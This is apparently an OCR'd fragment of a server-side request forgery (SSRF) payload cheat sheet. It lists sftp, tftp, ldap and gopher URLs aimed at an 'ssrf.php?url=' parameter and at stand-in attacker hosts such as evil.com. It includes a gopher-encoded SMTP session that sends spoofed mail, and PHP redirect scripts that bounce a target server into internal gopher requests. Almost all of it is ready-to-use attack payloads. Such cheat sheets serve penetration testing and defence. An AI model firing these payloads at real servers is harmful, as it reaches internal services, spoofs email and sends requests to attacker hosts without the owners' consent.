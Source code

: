 - SFTP
A network protocol used for secure file transfer over secure shell

[ssrf.php?url=sftp://evil.com:11111/](.)

- TFTP
Trivial File Transfer Protocol, works over UDP

[ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET](.)

- LDAP
Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

- Gopher

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH
You didn't say the magic word !
.
QUIT
Gopher HTTP
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
Gopher SMTP — Back connect to 1337
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
Now query it.
https://example.com/?q=http://evil.com/redirect.php.
Gopher SMTP — send a mail
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );
        $payload = implode('%0A', $commands);
        header('Location: gopher://0:25/_'.$payload);
?>
```
